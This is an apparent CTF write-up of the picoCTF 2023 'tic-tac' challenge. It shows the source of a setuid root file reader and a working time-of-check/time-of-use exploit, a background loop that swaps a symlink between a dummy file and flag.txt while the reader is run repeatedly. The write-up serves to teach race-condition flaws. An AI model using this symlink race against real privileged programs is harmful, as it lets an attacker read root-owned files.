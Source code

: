 # Binary Exploitation / tic-tac

This is a write-up of my solution to these challenges from the [2023 picoCTF](index.md):

- Binary Exploitation / [tic-tac](https://play.picoctf.org/practice/challenge/380) (200 Points)

# tic-tac (200)
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

On launching the challenge instance, we get `ssh`-connection details.
In the home-folder of our user `ctf-player`, we find the `txtreader` executable,
which is owned by `root` and has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set:
```
$ ls -la
[...]
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

We can therefore execute it as `root` and it will print our own file `src.cpp` like `cat` would.
This does not work with `flag.txt` however,
since the binary seems to check the owner rights of files before it prints them:
```
$ ./txtreader src.cpp 
#include <iostream>
#include <fstream>
[...]

$ ./txtreader flag.txt 
Error: you don't own this file
```

The file `src.cpp` actually contains the source code of `txtreader`,
allowing us to look closer at how this check is performed:

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

A big hint to the solution is one of the challenges tags: `toctou`
This stands for [time of check / time of use](https://de.wikipedia.org/wiki/Time-of-Check-to-Time-of-Use-Problem),
a common problem, where the execution of some code depends on a check.
When there is a gap in time between the check and the dependent code,
another process could change the check condition in exactly this moment.

In the code above, the ownership of the file is checked before it is opened for reading.
If we manage to swap the file between these two operations,
the check might be performed on a different file that the one being read.
For this I create a dummy file that I own and a symbolic link to this file called `flag`:

```bash
echo "dummy file content" > dummy.txt
ln -s dummy.txt flag
```

I can now call the `txtreader` with this link and it will print my file:

```bash
$ ./txtreader flag
dummy file content
```

With a `while`-loop, I can change this link back and forth between `dummy.txt` and `flag.txt` as fast as possible.
I put this process in the background with `&`, so it keeps running:
```
$ while true; do ln -fs flag.txt flag; ln -fs dummy.txt flag; done &
[1] 61
```

Now all that's left to do is to try reading `flag` as often as possible
and filtering away all outputs that are not the flag:
```
$ while true; do ./txtreader flag; done 2>&1 | grep "picoCTF"
picoCTF{ToctoU_!s_3a5y_XXXXXXXX}
```
